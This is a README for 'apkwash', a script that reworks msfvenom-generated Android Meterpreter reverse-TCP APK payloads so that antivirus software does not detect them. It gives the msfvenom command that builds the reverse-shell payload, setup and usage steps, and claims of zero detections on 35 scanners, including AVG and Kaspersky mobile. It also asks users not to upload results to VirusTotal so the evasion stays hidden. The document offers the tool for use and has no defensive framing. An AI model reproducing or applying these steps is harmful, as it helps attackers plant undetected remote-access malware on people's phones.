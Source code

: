 # apkwash
Android APK Antivirus evasion for msfvenom generated payloads.
<br><br>
<b> -- Please do not upload "washed" files to VirusTotal.com -- </b><br>
<br>
<b>Setup:</b><br>
chmod +x apkwash<br>
mv apkwash /usr/local/bin/.<br>
<br>
<b>Usage:</b><br>
apktool \<payload>.apk<br>
<br>
<b>Input:</b><br>
This script takes a msfgenerated payload as input.<br>
Ex: msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT<PORT> -o \<payload>.apk<br>
<br>
<b>Output:</b><br>
washed_\<payload>.apk<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 16Feb17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
<br>
<b>Modifiations</b><br>
Feel free to open the script and make improvements. This script basically utilizes APKTool to open the package, uses sed to replace strings that flag AV, recompiles, then signs.<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload directory to see the file structure that was compiled.<br>
